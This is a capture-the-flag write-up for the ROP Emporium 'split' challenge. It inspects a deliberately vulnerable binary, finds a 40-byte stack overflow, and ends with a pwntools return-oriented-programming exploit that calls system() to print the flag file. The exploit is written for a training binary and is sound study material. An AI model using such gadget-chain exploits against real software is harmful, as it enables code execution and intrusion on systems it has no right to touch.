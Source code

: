 # Challenge 2 - split
## Description
This is the second of the ROP Emporium challenges. [split](https://ropemporium.com/challenge/split.html)

"Combine elements from the ret2win challenge that have been split apart to beat this challenge. Learn how to use another tool whilst crafting a short ROP chain."

Let's start, as usual, by inspecting the binary:

```
mfumega@pwn-boy:/pwn-boy$ file split
split: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=98755e64e1d0c1bff48fccae1dca9ee9e3c609e2, not stripped
mfumega@pwn-boy:/pwn-boy$ pwn checksec split
[*] '/pwn-boy/split'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
After this info, let's run the binary to see what's happening 

```
mfumega@pwn-boy:/pwn-boy$ ./split
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> AAA
Thank you!

Exiting
```

So, the behaviour seems to be pretty similar to the previous one.
If we look at the functions the binary now has, we see the ret2win one is not present anymore: 
```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000400528  _init
0x0000000000400550  puts@plt
0x0000000000400560  system@plt
[...]
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400742  usefulFunction
```

The binary is the same, but this time, we have a function called "usefulFunction" that contains a call to `system()`.

If we inspect the binary, we'll find a string that opens the flag.txt file: 
```
pwndbg> search "/bin/cat"
Searching for byte: b'/bin/cat'
split           0x601060 '/bin/cat flag.txt'
pwndbg>
```

This will come handy later on the challenge. 

In Ghidra we can see the `pwnme()` function doing again the call on "read" for a size bigger that the variable storing it
```C
void pwnme(void)

{
  undefined1 local_28 [32];
  
  memset(local_28,0,0x20);
  puts("Contriving a reason to ask user for data...");
  printf("> ");
  read(0,local_28,0x60);
  puts("Thank you!");
  return;
}
```

So, doing a recap, we have: 
- A buffer overflow
- An function that calls "system()" at 0x40074b (this is the address to the call to system inside the function) 
- A string containing "/bin/cat flag.txt" at 0x601060

If we take a quick look on the man page for "system", we'll see that it will run a command passed as an argument
```
NAME
       system - execute a shell command

SYNOPSIS
       #include <stdlib.h>

       int system(const char *command);
```

So, the general idea will be to run `system("/bin/cat flag.txt")`. 

To pass arguments to a function, we must rely on computer registers like this:
- RDI > First argument
- RSI > Second argument
- RDX > Third argument
- RCX > Fourth argument
- R8 > Fifth argument
- R9 > Sixth argument

So, we must store our command string on RDI, and then call `system`. 
To put a value on a register, we can use the assembler instruction "pop". This will take a value from the stack, and store it on a register. For this matter, we should use `pop RDI`.

So now we need: 
- A "pop rdi" gadget
- The address of our command string (0x601060)
- The address where system() is called on the usefulFunction (0x40074b)

Now, for the address of our "pop rdi" gadget, we'll use a tool called "ropper":
```
mfumega@pwn-boy:/pwn-boy$ ropper --file split --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: split
0x00000000004007c3: pop rdi; ret;

mfumega@pwn-boy:/pwn-boy$
```

Ok, so we know have everything we need. Let's calculate the offset for our buffer overflow running the program and inspecting the stack, just as the previous challenge:
```
 ► 0         0x400735 pwnme+77
   1         0x4006d7 main+64
   2   0x7ffff7da8d90 __libc_start_call_main+128
   3   0x7ffff7da8e40 __libc_start_main+128
   4         0x4005da _start+42
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> x/25gx $rsp
0x7fffffffdd00: 0x4141414141414141      0x000000000000000a
0x7fffffffdd10: 0x0000000000000000      0x0000000000000000
0x7fffffffdd20: 0x00007fffffffdd30      0x00000000004006d7
0x7fffffffdd30: 0x0000000000000001      0x00007ffff7da8d90
0x7fffffffdd40: 0x0000000000000000      0x0000000000400697
0x7fffffffdd50: 0x00000001ffffde30      0x00007fffffffde48
0x7fffffffdd60: 0x0000000000000000      0x1e63be88416db69a
0x7fffffffdd70: 0x00007fffffffde48      0x0000000000400697
0x7fffffffdd80: 0x0000000000000000      0x00007ffff7ffd040
0x7fffffffdd90: 0xe19c4177fbefb69a      0xe19c513d5be7b69a
0x7fffffffdda0: 0x00007fff00000000      0x0000000000000000
0x7fffffffddb0: 0x0000000000000000      0x00007fffffffde48
0x7fffffffddc0: 0x0000000000000000
pwndbg>
```

We see our input starting at 0x7fffffffdd00 and the return address at 0x7fffffffdd28. This is an offset of 40 bytes.

Let's now build our exploit:
```python
#!/usr/bin/env python3

from pwn import *

binary_path = '/pwn-boy/split'
p = process(binary_path)

offset = 40
usefulFunction_addr = 0x40074b
pop_rdi_addr = 0x4007c3
bin_cat_addr = 0x601060

payload = b'A' * offset
payload += p64(pop_rdi_addr) + p64(bin_cat_addr)
payload += p64(usefulFunction_addr)

p.sendline(payload)
response = p.recvall()
print(response.decode('latin-1'))
```
And we got the flag. That's it for this challenge, see you on the next one! 
